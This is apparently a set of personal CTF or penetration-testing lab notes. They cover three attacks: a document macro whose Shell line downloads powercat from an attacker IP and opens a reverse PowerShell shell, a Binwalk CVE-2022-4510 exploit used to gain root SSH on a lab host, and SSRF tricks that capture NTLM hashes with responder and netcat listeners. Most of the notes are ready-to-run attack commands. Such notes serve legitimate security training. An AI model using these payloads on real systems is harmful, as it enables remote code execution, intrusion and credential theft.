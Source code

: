 - select most nested folder from dropdown within our document -> OK
![[Pasted image 20250519182805.png]]
- should show assigned action -> OK
upload it and it should show up in listener in a few seconds
![[Pasted image 20250519182907.png]]
- means its working, but need to update script in macro
remove macro from Tools -> Customize section -> Tools -> Macros > edit macro and update the macro
![[Pasted image 20250519183106.png]]
```
Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.160/powercat.ps1');powercat -c 192.168.45.160 -p 135 -e powershell")
```
- go back to Tools > Customize and reassign macro, start listener, and upload again
![[Pasted image 20250519183159.png]]
---
###### Binwalk 2.3.2 Vuln
```
ssh-keygen -t ed25519 -f ./id_ed25519
```
- script [https://github.com/adhikara13/CVE-2022-4510-WalkingPath](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) to change the keys with a sample png file to a vulnerable ssh exploit
```
python walkingpath.py ssh sample.png ./id_ed25519.pub
```
 - generates malicious file named binwalk_exploit.png
Upload file to machine:
```
scp ./binwalk_exploit.png emily@pilgrimage.htb:/var/www/pilgrimage.htb/shrunk/
```
SSH as root
```
ssh -i id_ed25519 root@pilgrimage.htb
```

---
#### SSRF
if SSRF (text box that calls a URL of my choosing), run responder on kali:
```
sudo responder -I tun0
```
Put link in URL box to call my IP  `\\192.168.45.181\share`
- should be able to capture request, get NTLM hash maybe
also try nc instead of responder:
```
nc -lvnp 80
```
- put in IP of kali `http://10.10.14.172/test` and see if receive any packets
- use burp to look at response and maybe get info on service
for a text box link that pulls a file and converts to pdf:
```
python -m http.server 80
```
- then use exiftool to see metadata and see what tool was used:
```
exiftool filename.pdf
```

---